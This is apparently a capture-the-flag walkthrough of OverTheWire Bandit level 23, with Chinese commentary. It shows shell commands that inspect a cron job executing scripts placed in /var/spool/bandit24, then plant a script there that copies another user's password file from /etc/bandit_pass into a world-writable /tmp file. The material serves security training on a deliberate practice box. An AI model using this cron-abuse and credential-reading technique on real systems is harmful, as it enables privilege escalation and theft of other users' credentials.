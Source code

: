 > A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
> *NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!*
> *NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…*
> **Commands you may need to solve this level**
> `cron, crontab, crontab(5) (use “man 5 crontab” to access this)`

老办法，还是先看看这个定时脚本写了什么

```shell
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

`/var/spool/cron/` 这个目录下存放的是每个用户包括root的`crontab`任务，每个任务以创建者的名字命名，比如`tom`建的`crontab`任务对应的文件就是`/var/spool/cron/tom`。一般一个用户最多只有一个`crontab`文件。

我们在`/var/spool/bandit24`目录下就可以运行bandit24的定时任务

创建一个放在改目录下的脚本就可以执行了

```shell
bandit23@bandit:/etc/cron.d$ mkdir /tmp/chenyang23
bandit23@bandit:/etc/cron.d$ cd /tmp/chenyang23
bandit23@bandit:/tmp/chenyang23$ touch chenyang23.sh
bandit23@bandit:/tmp/chenyang23$ chmod 777 chenyang23.sh
bandit23@bandit:/tmp/chenyang23$ vim chenyang23.sh
bandit23@bandit:/tmp/chenyang23$ cat chenyang23.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/chenyang23/password
bandit23@bandit:/tmp/chenyang23$ touch password
bandit23@bandit:/tmp/chenyang23$ chmod 666 password
bandit23@bandit:/tmp/chenyang23$ cp chenyang23.sh /var/spool/bandit24/
```
